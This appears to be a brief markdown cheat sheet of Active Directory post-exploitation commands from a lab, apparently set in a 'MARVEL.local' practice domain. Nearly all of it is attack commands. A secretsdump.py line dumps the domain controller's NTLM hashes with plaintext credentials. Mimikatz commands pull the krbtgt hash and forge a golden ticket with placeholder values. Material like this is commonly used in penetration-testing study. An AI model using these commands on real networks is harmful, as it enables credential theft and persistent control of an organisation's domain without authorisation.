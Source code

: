 # Post compromising domain

## Dumping thz ntds.dit

```
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm 
```

## Golden ticket attack



```
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt

kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID_VALUE] /krbtgt:[KRBTGT_NTLM_HASH] /id:[RELATIVE_ID] /ptt
```

